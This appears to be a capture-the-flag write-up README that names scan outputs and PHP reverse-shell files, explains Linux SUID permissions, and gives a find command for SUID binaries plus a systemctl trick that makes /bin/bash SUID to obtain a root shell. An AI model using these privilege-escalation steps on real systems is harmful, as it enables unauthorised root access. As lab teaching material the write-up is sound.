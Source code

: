 ### [gobuster.out](./gobuster.out)
### [nmap.out](./nmap.out)
### [php-rev-shell.php](./php-rev-shell.php)
### [phpext.txt](./phpext.txt)
### [revshell.phtml](./revshell.phtml)


[![SUID](./images/ZhaNR2p.jpg)](SUID)

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

```bash
# search for these files
$ find / -perm /-u=s,g=s -type f 2>/dev/null
```

```bash
### PE via systemctl | GTFOBin Link
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
# paste this ☝️ into terminal then run
# $ /bin/bash -p
```